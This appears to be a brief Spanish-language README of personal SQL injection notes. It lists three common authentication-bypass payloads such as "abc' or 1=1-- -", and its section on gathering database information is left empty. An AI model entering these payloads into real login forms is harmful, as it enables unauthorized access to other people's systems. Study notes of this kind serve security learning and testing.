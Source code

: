 # SQL Injection
En este repositorio incluire mis notas de sql injection y algunos payloads utilizados por mi.

## Payloads de autenticación
```sql
abc' or 1=1-- -
abc' or 1=1#
abc' or '1'='1
```
## Recopilar información de la base de datos
```sql

```
